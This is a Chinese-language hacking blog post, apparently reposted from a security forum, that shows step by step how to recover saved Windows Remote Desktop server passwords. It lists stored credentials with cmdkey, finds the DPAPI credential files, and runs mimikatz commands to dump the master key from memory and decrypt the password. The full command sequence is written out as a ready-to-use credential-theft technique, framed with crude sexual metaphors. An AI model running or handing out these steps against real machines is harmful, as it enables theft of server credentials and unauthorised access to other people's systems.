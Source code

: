 ```yaml
---
layout: post
title: 破解远程终端凭据，获取服务器密码
subtitle: 2017/10/20
date: 2017-10-20
author: FR
header-img:
catalog: true
tags:
    - windows
    - crack
    - password
---
```

# 破解远程终端凭据，获取服务器密码
- **原文转自T00ls.net [【原文链接】](https://www.t00ls.net/articles-41926.html)**

测试环境：windows 10

道友们应该碰到过管理在本地保存远程终端的凭据，凭据里躺着诱人的胴体(服务器密码)，早已让我们的大棒饥渴难耐了。
但是，胴体却裹了一身道袍(加密)，待老衲操起法器将其宽衣解带。

![](https://www.t00ls.net/attachments/month_1710/1710010133df4eed0bc854ab65.png)

## 0x01 凭据管理器中查看Windows凭据：TERMSRV/1xx.xxx.xxx.xx2

![](https://www.t00ls.net/attachments/month_1710/1710010133cc76caaa81644803.png)

可通过命令行获取，执行: cmdkey /list
>注意:该命令务必在Session会话下执行，system下执行无结果。

## 0x02 凭据存储在用户目录下

C:\Users\<username>\AppData\Local\Microsoft\Credentials\*，图中名为"FF359429D6F19C64BA7D3E282558EEB5"的文件即为目标凭据:TERMSRV/1xx.xxx.xxx.xx2的存储文件

![](https://www.t00ls.net/attachments/month_1710/1710010133de85b4d2e02de9b4.png)

## 0x03 执行

`mimikatz "dpapi::cred /in:C:\Users\xx\AppData\Local\Microsoft\Credentials\FF359429D6F19C64BA7D3E282558EEB5"`

![](https://www.t00ls.net/attachments/month_1710/1710010133f73326447a780849.png)

pbData是凭据的加密数据，guidMasterKey是凭据的GUID: {d91b091a-ef25-4424-aa45-a2a56b47a699}。

## 0x04 执行

`mimikatz privilege::debug sekurlsa::dpapi`

![](https://www.t00ls.net/attachments/month_1710/17100101335e46e0e11d5639b9.png)

根据目标凭据GUID: {d91b091a-ef25-4424-aa45-a2a56b47a699}找到其关联的MasterKey，这个MasterKey就是加密凭据的密钥，即解密pbData所必须的东西。

## 0x05 拿到了MasterKey,服务器密码便唾手可得。执行解密命令

`mimikatz "dpapi::cred /in:C:\Users\xx\AppData\Local\Microsoft\Credentials\FF359429D6F19C64BA7D3E282558EEB5 /masterkey:28d1f3252c019f9cxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx16dcec8e5dbf5cd0"`

![](https://www.t00ls.net/attachments/month_1710/1710010133a0bde34b6ad38f6f.png)

解密出来的CredentialBlob即为凭据TERMSRV/1xx.xxx.xxx.xx2的服务器密码。

衣带渐宽终不悔，为伊消得人憔悴。阿弥陀佛。

## 参考:
http://www.freebuf.com/articles/network/146460.html
